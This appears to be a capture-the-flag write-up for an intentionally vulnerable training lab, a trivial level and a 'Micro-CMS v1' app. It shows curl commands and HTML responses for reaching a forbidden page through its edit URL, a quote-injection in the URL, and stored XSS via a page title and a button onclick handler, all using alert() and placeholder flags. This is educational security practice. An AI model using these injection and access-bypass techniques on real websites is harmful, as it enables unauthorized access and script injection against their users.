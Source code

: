## TRIVIAL : little something to get you started 
being trivial flag must be in the source, so using `curl`
- `$ curl <url-instance>`

gives the source :
```html
<!doctype html>
<html>
    <head>
		<style>
			body {
				background-image: url("background.png");
			}
		</style>
	</head>
	<body>
		<p>Welcome to level 0.  Enjoy your stay.</p>
	</body>
</html>
```
notice `background-image: url("background.png");`
again with `/background.png`
- `$ curl <url-instance>/background.png`

gives :
`^FLAG^<flag>$FLAG$` 
here `<flag>` is a placeholder to the real flag.
* * *
## EASY : Micro-CMS v1
on thinkering with source and ui, structure ::
page urls :: `<url-instance>/page/<page-number>`
edit page urls :: `<url-instance>/page/edit/<page-number>`
- **FLAG 1**
    editing and traversing pages in order fetches 'NOT FOUND',
    - `$ curl <url-instance>/page/<page-number>`
        ```html
        <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
        <title>404 Not Found</title>
        <h1>Not Found</h1>
        <p>The requested URL was not found on the server.  If you entered the URL manually please check your spelling and try again.</p>
        ```
    BUT, on one of the pages fetches 'FORBIDDEN',
    - `$ curl <url-instance>/page/<page-number>`
        ```html
        <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
        <title>403 Forbidden</title>
        <h1>Forbidden</h1>
        <p>You don't have the permission to access the requested resource. It is either read-protected or not readable by the server.</p>
        ```
    hence, we cant really see what there is on this page so as a work around we'll change url in order to edit the page,
    - `url <url-instance>/page/edit/<page-number-forbidden`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="Private Page"><br>
			        <textarea name="body" rows="10" cols="80">My secret is ^FLAG^<flag>$FLAG$</textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	       </body>
        </html>
        <!--flag in <textarea> under holder <flag>-->
        ```
- **FLAG 2**
    simple injection on url under `/edit/` with `'`
    - `$ curl <url-instance>/page/edit/<any-page-number>\'`
    - `$ curl <url-instance>/page/edit/<any-pagenumber>\'"awd"sasatsgasgas`
    turns out if characters are appended after `'` doesn't change much in output!
    
    these commands outputs gives required flag.
- **FLAG 3**
    Micro-CMS is vulnerable to XSS so after trying for a while xss does comes out ahead for remaining flags.
    the way this page is created it mitigates xss injection on `<textarea>` and actively changes `<script></script>` to `<scrubbed></scrubbed>`
    - `$ curl <url-instance>/page/edit/1`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="Testing"><br>
			        <textarea name="body" rows="10" cols="80">&lt;script&gt;alert('slert')&lt;/script&gt;</textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	        </body>
        </html>
        ```
    XSS in `<textarea>` changes to 
    - `$ curl <url-instance>/page/1`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>Testing</title>
	        </head>
	        <body>
		        <a href="../">&lt;-- Go Home</a><br>
		        <a href="edit/1">Edit this page</a>
		        <h1>Testing</h1>
                <scrubbed>alert('slert')</scrubbed>
	        </body>
        </html>
        ```
    furthermore, if we use same XSS on `Title : <input..>` it works( requires to navigate to base url after saving)!
    - `$ curl <url-instance>/page/edit/1`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="&lt;script&gt;alert('slert')&lt;/script&gt;"><br>
			        <textarea name="body" rows="10" cols="80">&lt;script&gt;alert('slert')&lt;/script&gt; </textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	        </body>
        </html>
        ```
    payload in form's `<input value="..">`
    - `$ curl <url-instance>/page/1`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>&lt;script&gt;alert('slert')&lt;/script&gt;</title>
	        </head>
	        <body>
		        <a href="../">&lt;-- Go Home</a><br>
		        <a href="edit/1">Edit this page</a>
		        <h1>&lt;script&gt;alert('slert')&lt;/script&gt;</h1>
                <scrubbed>alert('slert')</scrubbed>
	        </body>
        </html>
        ```
    to finally obtain the flag navigate back to base url to Micro-CMS url, giving flag as an alert
    - `$ curl <url-instance>`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>Micro-CMS</title>
	        </head>
	        <body>
		        <ul>
                    <li><a href="page/1"><script>alert("^FLAG^<flag>$FLAG$");</script><script>alert('slert')</script></a></li>
                    <li><a href="page/2">Markdown Test</a></li>
                    <li><a href="page/9">awd</a></li>
		        </ul>
		        <a href="page/create">Create a new page</a>
	        </body>
        </html>
        <!--flag under <href> with <flag> placeholder-->
        ```
- **FLAG 4**
    XSS can be injected to buttons, under edit pages insert payload
    `<button onclick=alert("xss")>call</button>`
    - `$ curl <url-instance>/page/edit/10`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>Edit page</title>
	        </head>
	        <body>
		        <a href="../../">&lt;-- Go Home</a>
		        <h1>Edit Page</h1>
		        <form method="POST">
			        Title: <input type="text" name="title" value="button"><br>
			        <textarea name="body" rows="10" cols="80">&lt;button onclick=alert(&quot;aha&quot;)&gt;call&lt;/button&gt;</textarea><br>
			        <input type="submit" value="Save">
			        <div style="font-style: italic"><a href="https://github.com/adam-p/markdown-here/wiki/Markdown-Cheatsheet">Markdown</a> is supported, but scripts are not</div>
		        </form>
	        </body>
        </html>
        ```
    button xss onclick function calls alert!
    - `$ curl <url-instance>/page/10`
        ```html
        <!doctype html>
        <html>
	        <head>
		        <title>button</title>
	        </head>
	        <body>
		        <a href="../">&lt;-- Go Home</a><br>
		        <a href="edit/10">Edit this page</a>
		        <h1>button</h1>
                <p><button flag="^FLAG^<flag>$FLAG$" onclick=alert("aha")>call</button></p>
	        </body>
        </html>
        <!--flag under placeholder <flag>-->
        ```
* * *
        
    


    




